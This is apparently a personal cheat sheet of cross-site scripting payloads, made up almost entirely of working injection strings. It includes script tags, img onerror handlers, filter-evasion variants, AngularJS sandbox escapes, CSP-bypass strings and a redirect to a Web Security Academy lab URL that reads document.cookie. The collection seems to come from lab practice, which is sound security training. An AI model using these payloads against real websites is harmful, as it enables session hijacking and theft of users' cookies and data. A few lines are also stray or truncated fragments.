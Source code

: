 # My payloads
<script>alert(2)</script>
<script>alert(document.domain)</script>
<script>alert(document.cookie)</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<script>alert('XSS')</script>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<svg
<img src=x onerror=confirm(1)>
"><img src=x onerror=prompt(1337);>Tours
<img src="" draggable="false" onerror="alert(761)">
javascript:alert(1)
"></select><img src=x onerror=alert(1)>
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
<><img src=1 onerror=alert(1)>
%27accesskey=%27x%27onclick=%27alert(1)
</script><script>alert(1)</script>
?&apos;-alert(1)-&apos;

%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E

5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27

1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

<script>
location='https://your-lab-id.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>

/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27

# 🧐 request headers.   (change get method to post method )
